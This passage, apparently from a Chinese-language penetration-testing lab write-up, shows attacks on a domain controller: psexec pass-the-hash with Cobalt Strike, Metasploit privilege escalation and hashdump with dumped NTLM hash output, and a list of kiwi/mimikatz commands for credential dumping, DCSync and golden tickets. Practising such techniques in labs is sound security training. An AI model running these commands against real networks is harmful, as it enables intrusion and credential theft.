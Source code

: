 ![image-20240107152018482](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240107152018482.png)

可以利用抓取到的密码 psexec 利用域管理员账户 Hash login一下 监听器选 windows_smb/bind_pipe

![image-20240107152905930](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240107152905930.png)

(采用的SMB，这里本地cs东西太多了，未成功)

拿到正向会话(前面三层内网靶机有讲正向反向)之后，我们可以右键 目标->文件管理

![image-20240107152946686](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240107152946686.png)

可以看到域控的文件 我们可以进行上传文件操作，拿下域控

### (7)MSF哈希传递攻击

`run windows/gather/smart_hashdump` 来进行hashdump

需要SYSTEM权限，我们直接getsystem 发现可以正常提权
提到SYSTEM权限之后再执行 `run windows/gather/smart_hashdump`

![image-20240107153454857](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240107153454857.png)

得到管理员的密码的hash

```java
[+]     Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[+]     liukaifeng01:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

但是这个只是用户密码的一个hash值，我们在msf里加载mimikatz模块
ps：ms6中 mimikatz模块已经合并为kiwi模块

```java

load kiwi

creds_all  #列举所有凭据
creds_kerberos  #列举所有kerberos凭据
creds_msv  #列举所有msv凭据
creds_ssp  #列举所有ssp凭据
creds_tspkg  #列举所有tspkg凭据
creds_wdigest  #列举所有wdigest凭据
dcsync  #通过DCSync检索用户帐户信息
dcsync_ntlm  #通过DCSync检索用户帐户NTLM散列、SID和RID
golden_ticket_create  #创建黄金票据
kerberos_ticket_list  #列举kerberos票据
kerberos_ticket_purge  #清除kerberos票据
kerberos_ticket_use  #使用kerberos票据
kiwi_cmd  #执行mimikatz的命令，后面接mimikatz.exe的命令
lsa_dump_sam  #dump出lsa的SAM
lsa_dump_secrets  #dump出lsa的密文
password_change  #修改密码
wifi_list  #列出当前用户的wifi配置文件
wifi_list_shared  #列出共享wifi配置文件/编码
```
